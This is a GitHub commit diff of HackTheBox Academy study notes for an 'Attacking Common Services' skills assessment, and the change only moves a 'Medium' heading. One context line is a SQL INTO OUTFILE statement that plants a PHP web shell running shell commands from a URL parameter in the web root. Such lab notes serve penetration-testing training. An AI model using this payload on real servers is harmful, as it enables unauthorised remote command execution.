

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
+++ b/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
@@ -1,6 +1,4 @@
 ## Easy
-
-## Medium
 
 **Domain**
 ```
@@ -150,7 +148,7 @@ MariaDB [(none)]>
 SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
 ```
 
-
+## Medium
 
 **IP**
 ```
````
